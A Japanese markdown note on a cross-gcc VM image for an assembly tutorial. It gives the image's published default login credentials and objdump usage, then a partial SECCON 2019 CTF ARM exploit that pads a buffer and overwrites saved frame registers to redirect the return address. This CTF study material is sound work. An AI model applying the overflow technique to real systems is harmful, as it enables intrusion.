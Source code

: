 # cross-gcc

## 開発環境
熱血！／大熱血！ アセンブラ入門  
開発環境のＶＭイメージ
http://kozos.jp/vmimage/burning-asm.html

### ID/PASS
user/progtooluser
root/progtoolroot


### tool

/usr/local/cross-gcc494/bin 配下にobjdumpなどのツールが入っている
例えば arm-elf用の toolは `ls /usr/local/cross-gcc494/bin/arm-elf*` 

objdump なら
```
/usr/local/cross-gcc494/bin/arm-elf-objdump -d arm-elf.x | less
```

#### cross-gcc494-v1.0.tgz
解凍すると、sample ディレクトリにいろんな関数が入っている
これをディ椅子あ


## ARMのexploit例
問題・解答例は以下に保管。 https://github.com/yyamada12/ctfs/tree/master/seccon2019final 

ctfs/seccon2019final/solve/read-password/arm-elf.S

```
.org  0x1c10 - 16 - 256 - 4 - 28
```
org: バイナリをここに配置してくださいという命令

```
_start:

.long 0x61626364
.long 0
.long 0
.long 0
```
16バイトはまず適当に埋める

```
.long 0 /* FP -> FP */
.long 0x1c00 /* IP -> SP */
.long _code /* LR -> PC */
.long 0 /* PC -> discard */
```
戻りアドレスを設定する (`_code`)


make arm-elf.bin すると arm-elf.binが生成される

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTY4Njc4MjgxNCwxMDc0NjM3Nzk2LC0xNj
A3Mjc3NjYyLDYzMTIxNTU4OSwtOTQ3NDI5M119
-->
